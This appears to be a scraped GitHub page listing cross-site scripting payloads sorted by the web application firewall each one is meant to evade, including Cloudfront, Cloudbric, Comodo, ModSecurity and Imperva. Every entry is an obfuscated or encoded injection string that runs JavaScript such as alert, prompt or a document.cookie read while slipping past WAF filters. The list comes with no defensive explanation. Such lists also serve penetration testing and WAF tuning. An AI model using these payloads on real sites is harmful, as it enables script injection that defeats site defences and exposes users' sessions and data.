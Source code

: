 ```
<--`<img/src=` onerror=confirm``> --!>

<img src=x onerror="a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}};self[Object.keys(self)[a()]](document.domain)">

<j id=x style="-webkit-user-modify:read-write" onfocus={window.onerror=eval}throw/0/+name>H</j>#x

'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>

'"><img/src/onerror=.1|alert``>

:javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();
```

2. Cloudfront

```
">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(`cloudfrontbypass`)//'>

<--`<img%2fsrc%3d` onerror%3dalert(document.domain)> --!>

"><--<img+src= "><svg/onload+alert(document.domain)>> --!>
```

3. Cloudbric

```
<a69/onclick=[1].findIndex(alert)>pew
```

4. Comodo WAF

```
<input/oninput='new Function`confir\u006d\`0\``'>

<p/ondragstart=%27confirm(0)%27.replace(/.+/,eval)%20draggable=True>dragme
```

5. ModSecurity

```
<a href="jav%0Dascript&colon;alert(1)">
```

6. Imperva

```
<input id='a'value='global'><input id='b'value='E'><input 'id='c'value='val'><input id='d'value='aler'><input id='e'value='t(documen'><input id='f'value='t.domain)'><svg+onload[\r\n]=$[a.value+b.value+c.value](d.value+e.value+f.value)>

<x/onclick=globalThis&lsqb;'\u0070r\u006f'+'mpt']&lt;)>clickme

<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click

<a69/onclick=write&lpar;&rpar;>pew

<details/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];"/open>

<svg onload\r\n=$.globalEval("al"+"ert()");>

<svg/onload=self[`aler`%2b`t`]`1`>

%3Cimg%2Fsrc%3D%22x%22%2Fonerror%3D%22prom%5Cu0070t%2526%2523x28%3B%2526%2523x27%3B%2526%2523x58%3B%2526%2523x53%3B%2526%2523x53%3B%2526%2523x27%3B%2526%2523x29%3B%22%3E
```